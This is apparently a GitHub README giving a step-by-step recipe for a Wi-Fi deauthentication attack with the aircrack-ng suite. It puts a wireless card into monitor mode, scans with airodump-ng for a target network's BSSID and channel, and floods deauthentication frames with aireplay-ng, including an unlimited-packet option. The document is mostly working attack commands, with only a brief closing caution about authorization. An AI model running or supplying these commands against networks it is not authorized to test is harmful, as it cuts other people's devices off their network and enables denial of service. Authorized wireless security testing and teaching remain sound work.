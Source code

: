 # Deauthentication Attack using `aircrack-ng` suite on Linux

Here's a basic README for performing a deauthentication attack using `aircrack-ng` suite in Ubuntu/Debian-based system (may be identical on other system):

---

## Prerequisites

- Wireless network card that support monitor mode and packet injection (e.g., Atheros AR9565)
- `aircrack-ng` suite installed, if not
  
  ```bash
  sudo apt install aircrack-ng
  ```

## Steps

1. **Open Terminal**: Press `Ctrl + Alt + T` to open the terminal.

2. **Check Wireless Interface**: Determine the name of your wireless network interface. Use the following command:
   
    ```bash
    iwconfig
    ```
    Identify your wireless interface (e.g., wlan0, wlp3s0).

3. **Put your Wireless Interface in Monitor Mode**: Use `airmon-ng` to put your wireless interface in monitor mode. Replace `wlan0` with your wireless interface name:
   
    ```bash
    sudo airmon-ng start wlan0
    ```
    This command usually rename your interface (e.g., `wlan0mon` `wlp3s0mon`).

4. **Check Monitor Interface**: Verify that the monitor mode has been enabled by running:

   ```bash
   iwconfig
   ```
   You should see your interface listed in monitor mode (e.g., `wlan0mon` `wlp3s0mon`).

5. **Scan for Networks**: Use `airodump-ng` to scan for nearby wireless networks and find the target's BSSID (MAC address) and channel:

   ```bash
   sudo airodump-ng wlan0mon
   ```
   This will scan nearby wireless networks on all channel. Use `Ctrl+C` to stop scanning.

6. **Scan for Target Nerworks**: After knowing which channel the target are, use `--channel` and re-scan. 
   
   ```bash
   sudo airodump-ng wlan0mon --channel 1
   ```
   Replace `1` with your target's channel.

7. **Execute Deauthentication Attack**: Open a new terminal window or tab and execute the deauthentication attack using the following command:

   ```bash
   sudo aireplay-ng -0 5 -a <BSSID> wlan0mon
   ```
   Replace `<BSSID>` with the BSSID of the target network obtained from the previous step.

   `-0` flag specifies the deauthentication attack.\
   `5` represents the number of deauthentication packets to send. Adjust as needed. `0` means unlimited.

8. **Monitor Activity**: Switch back to the first terminal where `airodump-ng` is running. You should see devices disconnecting and attempting to reconnect to the target network.

9. **Exit Monitor Mode**: Once you've completed the attack, exit monitor mode using:

   ```bash
   sudo airmon-ng stop wlan0mon
   ```
   Replace `wlan0mon` with your monitor interface name if different.

## Notes
- **Caution**: Deauthentication attacks can be illegal if performed without proper authorization. Ensure you have permission before conducting such tests.
- Use responsibly and in controlled environments.
- Be mindful of the laws and regulations related to wireless network security in your area.
